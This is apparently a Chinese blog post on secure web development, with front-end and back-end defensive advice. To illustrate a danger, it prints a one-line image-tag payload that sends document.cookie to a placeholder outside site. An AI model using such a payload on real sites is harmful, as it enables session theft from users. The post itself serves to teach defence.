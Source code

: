 ```yaml
---
title: WEB 应用安全开发
date: 2021-01-24 12:14:10
tags:
  - network
categories:
  - network
topdeclare: true
reward: true
---
```


# WEB 应用安全开发

黑客大部分利用的是软件的漏洞，所以我们要尽可能在开发的时候切断所有可能被利用的地方。要想开发出安全的系统，我们需要熟悉黑客进攻的模式和防守的策略。

# 简介

重视安全最好的策略是将风险最大化，开发的时候要换位思考，如果我是黑客我是不是有办法绕过当前的限制。在进行具体场景讲解前，先来了解一些关键词。

## 关键名词

- **同域：** 相同域名，端口相同，协议相同，缺一不可。
- **跨域：** 浏览器从一个域名的网页去请求另一个域名的资源时，域名、端口、协议至少有一个不相同，就是跨域。
- **ECMAScript：** 简称（ES）JavaScript 所遵循的语法标准。
- **W3C：** 即 万维网联盟 ，最重要的工作是发展 Web 规范，这些规范描述了 Web 的通信协议（比如 HTML 和 XHTML）和其他的构建模块。

<!--more-->

## 安全领域的参与者

把握安全领域就要把握 Web 流程中的参与者，除了攻击者外其它角色均需要提供安全的解决方案。从大的方向有下面几大角色，没有谁是绝对安全的。

![image-20201202163205266](/zbcn.github.io/assets/postImg/web/WEB_SAFE_02安全开发/image-20201202163205266.png)

#  前端安全开发

前端的安全主要围绕 W3C 进行，同时浏览器的漏洞和 Http 协议本身的缺陷也会造成影响。

##  明文防范

W3C 三个核心对象：HTML，JavaScript，CSS 分别负责了网站的内容结构，动作交互逻辑，展示样式。这么核心的东西在客户都是很容易查看的。虽然 JavaScript 可以混淆加密，但是最终他是需要被浏览器解析的，所以肯定是有一套固定的规范，黑客同样可以轻易解密。

明文也就算了，用户居然可以任意更改上面 W3C 的核心对象，并产生不同的效果，真的是危机四伏。

- 不要异想天开的在前端与后台约定某个加密算法，这样算法一下子就泄露了；
- 对于前端的输入都要保持怀疑，重要的数据如果后端允许，需要自行生成或者加以校验；
- 虽然客户端的一览无遗，但是还是要尽量使用 Https 协议，保证传输的过程是加密的；
- 需要权限的操作，即使前端按钮隐藏了，后端的接口也需要重新鉴权下，很可能客户端自己修改 CSS 使按钮显示出来了；

## URL 导致的泄露问题

前端任何地方带有 URL 的都要引起警惕，主要可能带来下面安全问题：

1. 构建系统的某些接口等用户登录后触发；
2. 调用别的网站，将该作用域下的 Cookie 传输出去。

常见隐藏点：

图片

```html
<img src='http:xxx'>
```

css 样式

```css
background:url(bgimage.gif)
```

表单 action 地址，或者注入隐藏的 input 参数

```html
<form action=''>
<input type="hidden" name="field＿name" value="value"> 
```

## window 下的全局变量

Window 下面带了很多可以直接使用的全局变量，要警惕危险。

![image-20201202163606377](/zbcn.github.io/assets/postImg/web/WEB_SAFE_02安全开发/image-20201202163606377.png)

危险点：利用 window.document 获取本域 cookie 然后传输到黑客的网站

```html
<img src='别的网站URL?param='+document.cookie >
```

容易受跨站脚本攻击利用

```js
window.location.href = 【该值最好不要是动态的，容易被注入】
```

# 后端安全开发

## 规范问题

1. 权威机构平台漏洞订阅，并及时做出修改。
2. 开发规范的遵守
   - 学习相关开发规范手册。
   - IDEA 安装实时的代码扫描插件，有问题的地方及时更正。
3. 代码 review 实践。
4. 重要参数不要轻易在日志中输出。
5. 代码泄露
   - 代码不要上传网上。
   - 数据库，签名算法，密钥值 要重要保管，线上不相关的人不要泄露。
6. 重要账号不要为了一时方便提供给开发，测试 等不相干人员，如果有也要及时修改密码。

## 设计问题

1. 类似活动的抽奖，优惠卷领取逻辑不够严谨，可能被人褥羊毛；
2. 登录没有限制次数，容易被暴力破解；
3. 短信验证没有设置重发时间，容易被利用做短信轰炸。

##  信任问题

1. 同域：检查请求头的 **ref** 参数，要么是同域的，要么是信任的才响应。
2. 请求参数
   - 不要太信任前端参数，重要值后台能获取的尽量自己获取。
   - 请求的所有参数都做下 XSS/ SQL 注入 的关键字符的过滤。
3. 权限：涉及到权限的后端都要自己校验，不要说前端按钮隐藏了就可以了

## 增加风控逻辑

1. 用户的账号异地登陆，可以做出些限制或提醒。
2. 某个用户购买的某个商品或者领取的优惠卷异常多，做出限制。
3. 通过 AI 智能模型，对用户行为，流量数据进行检测，模型异常就做出限制。

## 网络策略限制

1. 数据库，Redis，ES，等需要设置访问的 IP 白名单。
2. 对服务器进流量和出流量端口做限制。
3. 架构上面尽量隐藏内部服务等地址。
4. 数据库和应用最好分开，以免被一锅端。

# 小结

安全问题需要经验累积，软件开发作为一个团队协作的工作，大家经验水平不同，所以尽量在团队中分享安全开发的相关知识，技术 Leader 定期 Review 组员代码。